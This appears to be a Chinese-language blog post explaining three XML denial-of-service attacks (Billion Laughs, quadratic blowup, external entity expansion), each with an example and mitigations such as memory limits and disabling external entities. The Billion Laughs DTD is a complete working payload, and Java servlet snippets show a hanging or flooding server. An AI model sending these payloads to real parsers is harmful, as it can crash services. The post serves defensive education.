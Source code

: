 ```yaml
---
layout: post
title: "xml 常见攻击介绍及其防范"
description: "xml 常见攻击介绍及其防范"
category: 安全相关
tags: [Coding, XML, Security]
---
```


## 目录

---

* [Billion Laughs 百万笑声攻击](#billion_laughs)
* [Quafratic Blowup 二次元爆炸攻击](#quafratic_blowup)
* [External Entity Expansion 外部实体膨胀](#external_entity_expansion)


<h3 id="billion_laughs">1. Billion Laughs</h3>

---

此类攻击的目标是XML的**parser**，会通过递归的引用耗尽parser的空间，造成内存溢出。

在最常用的代码示例中常用到记号**"lol"**，类似微笑符号。10层的递归产生了百万个lol的引用，因此称为**Billion Laughs**。

此类攻击首次发现于2003年，在2008年变的流行。

#### 示例

{% highlight dtd %}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
{% endhighlight %}

#### 说明

当XML解析器加载这份文档的时候，发现唯一的根节点`lolz`，包含了文字`&lol9;`；而`&lol9;`是一个实体的引用，实体定义中又引用了10个`&lol8;`；同样的，`&lol8;`又引用的10个`&lol7;`，层层递归，最后产生了了百万个'lol'。原本1kb不到的xml文档在解析过程中占用了近 **3GB**的内存

#### 防范

可以通过限制每个parser的使用内存大小，来防止过度的占用内存；或者在解析过程中，忽略文档中的符号引用来解决。

<h3 id="quafratic_blowup">2. Quafratic Blowup</h3>

---

Quafratic Blowup（二次元爆炸）攻击是 **Billion Laughs** 的变体。不像BL使用嵌套的引用达到了递归，指数级增长内存消耗的方式，该攻击仅仅采用二次元的简单方式，看个代码会更容易理解。

#### 示例

{% highlight dtd %}
<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa...">
]>
<kaboom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...</kaboom>
{% endhighlight %}

#### 说明

如果攻击者在文档中定义了`&a;`为50,000个字符长度的字符串，在文档中引用了50,000次。那么原本200 KB左右的xml文档，会在解析时占用约2.5GB的内存。效果不如BL攻击来的惊人，但是足够击溃一般的服务器或者浏览器进程。

#### 防范

参照Billion Laughs

<h3 id="external_entity_expansion">3. External Entity Expansion</h3>

---

外部实体膨胀攻击，此类攻击运用了xml定义实体过程中，可以使用外部uri返回进行定义的特性，达到使XML parser挂起或在极短时间内消耗大量服务器内存的目的。该攻击由Intel公司的Steve Orrin发现。

#### 示例

如下面的实体定义
{% highlight dtd %}
<!ENTITY stockprice SYSTEM    "http://www.example.com/currentstockprice">
{% endhighlight %}

在xml文档中如果使用`&stockprice;`引用实体，那么XML文档在解析时就会用`http://www.example.com/currentstockprice`的返回值，替代`&stockprice;`部分。

如果外部uri地址不返回，那么这个解析器就会在此处一直挂起。如以下的`servlet`实现

{% highlight java lineos %}
void doGet(HttpRequest request, HttpResponse response){
    Thread.sleep(Long.MAX_VALUE);
}
{% endhighlight %}

这样的攻击模式，一次只能挂起服务器的一个线程，危害还不是很大。如果服务器端响应程序修改为：

{% highlight java linenos %}
void doGet(HttpRequest request, HttpResponse response){
    response.setHeader("Content-Type", "text/plain");
    byte[] data = new byte[1000000];
    for (int i = 0; i < data.Length; i++) { data[i] = (byte)’A’; }
    while (true){
        response.out.write(data);
        response.out.flush();
    }
}
{% endhighlight %}

这个服务器响应将会在极短的时间内返回大量的数据给解析器，消耗服务器内存。

#### 防范

可以参照1，限制解析器的内存使用，避免OOM。另外，在明确需求的情况下，关闭解析器的外部URI实体引用，也可以达到相应的防范能力

<!--DTD retrieval
decompression bomb
-->